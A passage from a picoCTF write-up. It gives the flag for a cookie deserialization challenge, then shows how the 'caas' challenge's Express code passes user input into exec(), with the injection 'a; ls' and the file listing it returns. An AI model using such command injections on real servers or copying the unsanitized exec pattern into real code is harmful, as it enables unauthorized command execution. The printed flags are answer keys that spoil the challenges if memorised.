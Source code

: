 If we set this value to the `login` cookie and perform a request to the `authentication.php` page we get as a result: `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}`, as expected.

Flag: **picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}**

## caas ![p](https://img.shields.io/badge/Points-150-success) ![c](https://img.shields.io/badge/Web-purple)

> Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

By accessing the website and submitting some random messages, I started thinking about injecting some malicious content to the request, because the message is just taken and printed back from a cow.  
I tried to inject URL-encoded javascript, a Server Side Template Injection (by using a message like {{7\*7}}), but nothing seemed to work. I then tried to google some other possible attacks but still nothing.

After some time I realized they gave us also a source code I completely ignored:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

What we can conclude from there is that if we want to do something, the message must make the `exec()` function not to trigger an error, and to print back something useful instead. Also, the fact that `exec` is used may be a good thing for us.

In a command line, multiple commands may be executed sequentially: if we write `cat hello.txt; cat world.txt` is like if we wrote `cat hello.txt` and `cat world.txt` one after the other. What if we can do the same here?

If we try with `a; ls` we will get this:
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
